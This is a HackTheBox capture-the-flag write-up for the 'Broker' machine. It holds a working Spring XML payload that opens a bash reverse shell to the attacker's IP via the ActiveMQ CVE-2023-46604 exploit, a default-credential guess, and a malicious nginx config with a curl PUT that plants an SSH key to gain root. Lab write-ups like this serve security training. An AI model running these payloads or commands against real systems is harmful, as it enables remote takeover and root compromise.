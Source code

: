 ```yaml
---
tags:
  -  htb
---
```

# HackTheBox: [Broker](https://app.hackthebox.com/machines/Broker)

## Summary

This box is running a vulnerable version of [Apache ActiveMQ](https://en.wikipedia.org/wiki/Apache_ActiveMQ). After the foothold, `nginx` can be abused via `sudo` to run a malicious web server that accepts `PUT` requests to the root filesystem, which can be used to place an SSH key for shell access as `root`.

## Services

### TCP

- Target: `broker.htb 10.10.11.243`
- Command: `nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oA nmap_tcp-broker.htb broker.htb

#### 22/tcp-ssh `OpenSSH` `8.9p1 Ubuntu 3ubuntu0.4` `(Ubuntu Linux; protocol 2.0)`

```text
__ssh-hostkey:
  256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
```

#### 80/tcp-http `nginx` `1.18.0` `(Ubuntu)`

```text
__http-title:
Error 401 Unauthorized
__http-server-header:
nginx/1.18.0 (Ubuntu)
__http-auth:
HTTP/1.1 401 Unauthorized
  basic realm=ActiveMQRealm

```

Guess credentials `admin:admin`:

![](_/htb-broker-20240927-1.png)

#### 1883/tcp-mqtt

```text
__mqtt-subscribe:
  Topics and their most recent payloads:
    ActiveMQ/Advisory/Consumer/Topic/#:
    ActiveMQ/Advisory/MasterBroker:
```

#### 5672/tcp-amqp

```text
__amqp-info:
ERROR: AQMP:handshake expected header (1) frame, but was 65
__fingerprint-strings:
  DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
    AMQP
    AMQP
    amqp:decode-error
    7Connection from client using unsupported AMQP attempted
```

#### 8161/tcp-http `Jetty` `9.4.39.v20210325`

```text
__http-auth:
HTTP/1.1 401 Unauthorized
  basic realm=ActiveMQRealm

__http-server-header:
Jetty(9.4.39.v20210325)
```

#### 38231/tcp-tcpwrapped

#### 61613/tcp-stomp `Apache ActiveMQ`

```text
__fingerprint-strings:
  HELP4STOMP:
    ERROR
    content-type:text/plain
    message:Unknown STOMP action: HELP
    org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
    org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
    org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
    org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
    org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
    org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
    java.lang.Thread.run(Thread.java:750)
```

#### 61614/tcp-http `Jetty` `9.4.39.v20210325`

```text
__http-favicon:
Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
__http-server-header:
Jetty(9.4.39.v20210325)
__http-methods:
  Supported Methods: GET OPTIONS
__http-trane-info:
Problem with XML parsing of /evox/about
__http-title:
Site doesn't have a title.
```

#### 61616/tcp-apachemq `ActiveMQ OpenWire transport`

```text
__fingerprint-strings:
  NULL:
    ActiveMQ
    TcpNoDelayEnabled
    SizePrefixDisabled
    CacheSize
    ProviderName
    ActiveMQ
    StackTraceEnabled
    PlatformDetails
    Java
    CacheEnabled
    TightEncodingEnabled
    MaxFrameSize
    MaxInactivityDuration
    MaxInactivityDurationInitalDelay
    ProviderVersion
    5.15.15
```

## Remote Code Execution

Here is how I achieved remote code execution on the target system.

This machine is running a vulnerable version of [Apache ActiveMQ](https://en.wikipedia.org/wiki/Apache_ActiveMQ).

First I place the XML payload on my attack machine's web-server:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.14.21/443 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

Then I can trigger the [exploit](https://github.com/evkl1d/CVE-2023-46604):

```console
$ python3 exploit.py -i broker.htb -u http://10.10.14.21/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: broker.htb:61616
[*] XML URL: http://10.10.14.21/poc.xml

[*] Sending packet: 0000006d1f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001a687474703a2f2f31302e31302e31342e32312f706f632e786d6c
```

```console
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.243] 54222
bash: cannot set terminal process group (884): Inappropriate ioctl for device
bash: no job control in this shell
activemq@broker:/opt/apache-activemq-5.15.15/bin$ id
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
```

## Privilege Escalation

```console
activemq@broker:~$ sudo -l
sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

I create a malicious config file that will accept PUT requests to the root filesystem:

```text
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1339;
                root /;
                autoindex on;
                dav_methods PUT;
        }
}
```

Than I add my SSH key:

```console
activemq#broker:/tmp$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBofhuG5ISaVIR3ywAJ7ry+rellmpJVJi2aF5lszUGwj e' > authorized_keys
activemq#broker:/tmp$ curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat authorized_keys)"
```

Then I can login via SSH as `root`:

```console
$ ssh root@broker.htb
Warning: Permanently added 'broker.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
...

root@broker:~# id
uid=0(root) gid=0(root) groups=0(root)
```
